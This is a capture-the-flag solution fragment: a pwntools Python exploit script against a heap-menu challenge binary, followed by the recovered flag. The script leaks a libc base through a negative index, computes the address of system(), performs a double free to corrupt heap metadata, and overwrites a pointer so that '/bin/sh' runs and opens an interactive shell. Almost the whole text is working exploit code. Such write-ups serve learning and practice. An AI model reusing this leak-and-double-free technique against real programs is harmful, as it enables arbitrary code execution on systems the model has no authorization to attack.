 ```
   p.sendlineafter(": ",str(idx))
   p.sendlineafter(": ",data)

def show(idx):
   p.sendlineafter("> ","3")
   p.sendlineafter(": ",str(idx))
   p.recvuntil(":\n")
   p.recvuntil(": ")
   address = int(p.recvuntil("\n"),16)
   p.recvuntil(": ")
   data = p.recvuntil("\n")
   return address,data

#Libc Leak & Stack Leak
show(-9)
address,data = show(-9)
libc_base = address - 0x7a81b
system = libc_base +  0x45390

address,data = show(-5)
prev_size = address - 0x30

log.success("Found libc base! : 0x%x"%libc_base)

#Exploit
add(0x20,"A"*4)
add(0x20,"B"*4)

delete(1)
delete(2)
delete(1)

add(0x31,p64(prev_size))
add(0x31,"A"*4)
add(0x31,"B"*4)
add(0x31,"/bin/sh;"*3+p64(system))

p.interactive()
```

FLAG : The w0rld is a beautiful book, but 0f little u$e t0 him who cann0t r3ad it.




